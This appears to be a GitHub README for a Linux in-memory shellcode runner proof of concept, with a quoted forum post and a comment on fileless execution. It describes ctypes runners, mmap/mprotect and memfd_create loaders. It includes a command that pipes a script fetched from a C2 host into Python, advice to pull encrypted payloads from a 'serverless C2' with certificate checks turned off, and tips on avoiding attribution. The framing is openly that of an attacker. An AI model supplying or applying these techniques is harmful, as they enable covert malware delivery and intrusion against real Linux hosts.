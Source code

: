 # Linux in-memory shellcode runner proof-of-concept
1. main.py runs pure x86 64-bit shellcode to print the number 42 as a result from EAX
2. new.py runs a ELF binary with only the .text section that prints Hello World to the screen (there is a null-terminator error in the code, just add \0 into the end of the string)
3. memfd_loader uses Adam Cornelissen's suggestion using a full ELF loader running in a first stage loader

For all three options, you can use a python script or for #3, add a http library in C to remotely retrieve the encrypted shellcode from a serverless C2 to run the decrypted payload. If you do this, make sure you disable verification of self-signed certificates or the request will fail. Free signed certificates are a dime in a dozen and can get revoked in cyberattack campaigns pretty quickly or attributed to specific threat actors so you don't want to burn a legitimate SSL/TLS cert.

# Original Post

"I feel that this topic is underexplored, but a lot of malware can be executed entirely in memory in Linux as well. This happened far before we all started using Powershell + .NET + CLR managed/x86 unmanaged runners for Windows/NT Kernel Machines.

All you need, on Linux hosts, is python installed with ctypes, which usually comes with a python installation. In some cases, stripped down versions of python is installed that may not have ctypes, but for most desktop machines ctypes is available to run shellcode runners on Linux entirely in memory.

So how is this invoked remotely?

1. Download from a remote C2 the script with the shellcode with wget/curl
2. Pipe it into Python, wget https://c2/runner.py | python

It's way easier to grab shellcode out of a ELF using objdump after gcc with specific compilation flags to grab the machine code out of the .text section, and because this isn't memory corruption but a staged loader command, it'll launch.

This isn't that significant to experienced attackers but many documented attackers underutilize this trick. Or spawn subprocesses in python that continues to enumerate and evaluate the infected host to use logic to execute additional stages."

# Adam's Comment

Good stuff. How about; Anonymous mmap → mprotect → function pointer (ctypes-like core). The mapping is anonymous (fd = −1). No pathname in /proc/<pid>/maps, but blocked by W^X policies (MemoryDenyWriteExecute, PaX/SELinux execmem).

Or FFI buffers (cffi/libffi) + mprotect. Allocate a raw byte buffer through FFI; obtain its address; invoke libc.mprotect(addr, len, PROT_READ|PROT_EXEC); cast buffer address to void(*)() and call. The buffer lives on the heap; only page permissions change. No file artifact.

memfd_create + in-memory ELF + fexecve (new process, no file), or, memfd_create + in-memory .so + dlopen("/proc/self/fd/<n>", …). This is not “inject bytes and call a function.” It’s loading and running a complete ELF program in a new process without touching disk. Not exactly like ctypes, more like file-descriptor backed ELF loaders, not raw shellcode tricks.

# Using Method 2, executing .text section

nasm -f elf64 helloworld.asm -o helloworld.o
ld -o helloworld.elf helloworld.o
objcopy -O binary --only-section=.text helloworld.elf helloworld.bin
xxd -p helloworld.bin | tr -d '\n' | sed 's/\(..\)/\\x\1/g' | xclip -selection clipboard
Copy and paste into the python runner and execute

# Using Method 3, executing a entire ELF file embedded inside a host loader ELF

xxd -i helloworld.elf → turn ELF into C array
Include it in your loader with #include
Compile loader → produces memfd_loader
Run loader → executes ELF in memory
xxd -p + grep -abo '7f454c46' → verify both main and embedded ELF headers
